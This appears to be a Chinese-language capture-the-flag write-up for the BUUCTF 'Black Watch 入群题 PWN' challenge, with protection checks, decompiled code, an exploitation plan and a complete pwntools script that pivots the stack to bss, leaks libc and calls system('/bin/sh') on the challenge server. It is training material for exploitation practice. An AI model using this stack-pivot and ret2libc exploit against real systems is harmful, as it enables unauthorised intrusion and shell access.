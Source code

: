 ```yaml
---
author: 
  name: Zephyr
title: Black Watch 入群题 PWN
date: 2022-3-27 13:20:03
permalink: /pages/2e1547494524d19c
tags: 
  - buuctf
  - pwn
  - StackOverflow
  - 栈迁移
---
```


# Black Watch 入群题 PWN

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/Black_Watch_入群题_PWN/spwn'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vul_function();
  puts("GoodBye!");
  return 0;
}
```

vul_function函数及函数表如下

![Black_Watch_入群题_PWN_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/Black_Watch_%E5%85%A5%E7%BE%A4%E9%A2%98_PWN_1.png)



## 思路分析

1. 目前信息：
   - `vul_function`函数可溢出`8`个字节
   - `s`在`bss`段
   - 无`system`、`/bin/sh`与后门函数
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 只能溢出少量字节，选择使用栈迁移的手法，将栈迁移到`s`所在的`bss`段上,接着泄漏`libc`和函数地址，再构造`rop`链获得`shell`

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/Black_Watch_入群题_PWN/spwn'
io = remote('node4.buuoj.cn', 28817)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x1c
bss_s_addr = 0x0804A300
leave_ret = 0x08048511
write_plt = elf.plt['write']
libc_start_main_got = elf.got['__libc_start_main']
main_addr = elf.symbols['main']
payload = flat([bss_s_addr+0x200, write_plt,main_addr, 1, libc_start_main_got, 4])
io.sendafter('What is your name?', payload)
payload = flat(['a'*(padding-4), bss_s_addr, leave_ret])
io.sendafter('What do you want to say?', payload)
leak_libc_start_main = u32(io.recv(4))
success("leak_libc_start_main:"+hex(leak_libc_start_main))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
libc_base = leak_libc_start_main-libc.dump('__libc_start_main')
system = libc_base+libc.dump('system')
bin_sh = libc_base+libc.dump('str_bin_sh')
payload = flat([bss_s_addr+0x200, system, 0xdeadbeef, bin_sh])
io.sendafter('What is your name?', payload)
payload = flat(['a'*(padding-4), bss_s_addr, leave_ret])
io.sendafter('What do you want to say?', payload)
io.interactive()
```